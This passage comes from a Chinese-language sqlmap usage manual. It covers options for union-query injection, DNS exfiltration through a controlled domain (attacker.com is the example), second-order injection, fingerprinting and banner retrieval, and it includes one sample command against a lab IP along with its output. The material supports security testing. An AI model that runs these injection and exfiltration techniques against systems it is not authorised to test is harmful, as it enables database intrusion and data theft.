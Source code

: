 在一些联合查询注入中，需要在FROM字段提供有效的表名（例如--union-from=users），例如，Microsoft Access就需要使用这种表格。如果不提供，SQL注入将无法正确执行。

#### **3.7.6 DNS漏洞攻击**

> 参数 --dns-domain

关于SQL注入中的DNS漏洞攻击可参考[Data Retrieval over DNS in SQL Injection Attacks](http://arxiv.org/pdf/1303.3047.pdf)，关于它在sqlmap里面的实现可参考[DNS exfiltration using sqlmap](http://www.slideshare.net/stamparm/dns-exfiltration-using-sqlmap-13163281)

如果用户控制了目标url的DNS服务器（例如attacker.com），则可以使用此选项（例如--dns-domain attacker.com）启用此攻击。它工作的先决条件是运行带有Administrator权限的sqlmap （使用特权端口53），这样做的唯一目的就是加速数据检索过程。

#### **3.7.7 二阶攻击**

> 参数 --second-order

二阶攻击一般发生于一个易攻击页面中的有效payload的在另一个页面上显示。通常发生这种情况的原因是数据库存储用户在原页面上提供的输入。

你可以通过使用`--second-order`后接一个URL地址，来手动告诉sqlmap以测试此类SQL注入。

### 3.8 指纹
> 开关 -f或--fingerprint

默认情况下，sqlmap会自动指纹数据库。如果你想要执行更广泛的数据库指纹识别可以使用该参数，sqlmap会执行更多的请求，来确定更精确的DBMS版本以及操作系统，体系结构和补丁级别指纹。

### 3.9 列数据

#### **3.9.1 列举全部信息**

> 开关 --all

使用该开关，用户可检索访问的所有内容。

**不推荐这样做，因为它会产生大量的请求来检索有用和无用的数据。**

#### **3.9.2列举数据库管理系统信息**

> 开关 -b或--banner

大多数现代数据库管理系统都有一个函数或一个环境变量，它返回数据库管理系统版本，并最终返回其修补程序级别（即底层系统）的详细信息。通常该函数是version()和环境变量@@version，但是这取决于目标DBMS。

针对Oracle目标的示例：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int.php?id=1" --banner
```
输出：
```
[...]
[xx:xx:11] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: Oracle
banner:    'Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - Prod'
```

#### **3.9.3 当前用户**
